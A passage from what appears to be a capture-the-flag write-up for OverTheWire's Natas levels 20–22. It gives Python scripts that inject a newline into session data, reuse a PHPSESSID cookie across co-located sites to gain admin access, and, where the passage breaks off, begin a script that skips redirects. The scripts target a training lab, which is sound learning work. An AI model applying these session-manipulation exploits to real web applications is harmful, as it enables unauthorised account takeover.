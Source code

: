 ```python
response = session.get(url)

if 'You are an admin' in response.text:
    print('Success! Here is the response:')
    print(response.text)
else:
    print('Failed to get admin access.')
```
This script first creates a new session and sends a POST request with a payload that injects a new line and 'admin 1' into the 'name' parameter. This causes the server to treat 'admin 1' as a separate session variable when it reads the session data. Then, it sends a GET request with the same session to view the page again. If the server treats 'admin 1' as a session variable, it will consider the user to be an admin.

## natas21
This problem is similar to natas20, but we now have to input admin=1 ourselves and match the cookies from experimenter website to the original website. The python code for this is-

```python
import requests

# URLs for both sites
url = 'http://natas21.natas.labs.overthewire.org/index.php'
experimenter_url = 'http://natas21-experimenter.natas.labs.overthewire.org/index.php'

auth = ('natas21', '<password>')  # replace with the actual password

session = requests.Session()
session.auth = auth

# Step 1: Set the admin variable to 1 on the experimenter site
data = {'admin': '1', 'submit': 'Update'}
response = session.post(experimenter_url, data=data)

# Get the PHPSESSID from the response cookies
phpsessid = response.cookies['PHPSESSID']

# Step 2: Use the same PHPSESSID to view the main site
cookies = {'PHPSESSID': phpsessid}
response = session.get(url, cookies=cookies)

if 'You are an admin' in response.text:
    print('Success! Here is the response:')
    print(response.text)
else:
    print('Failed to get admin access.')
```
We submit admin=1 in the experimenter website which gives us the proper info and cookie, which is now submitted to main url. Since both are colocated, this works and we get our password.

## natas22
This is easy. Notice when everything is submitted as before(with or without cookie), we are being redirection to some `Location`. In the docs of `requests` library in python, it says we can disallow redirects. Thus our code becomes-
```python
import requests

# URLs for both sites
url = 'http://natas22.natas.labs.overthewire.org/index.php'

auth = ('natas22', '<password>')  # replace with the actual password

session = requests.Session()
```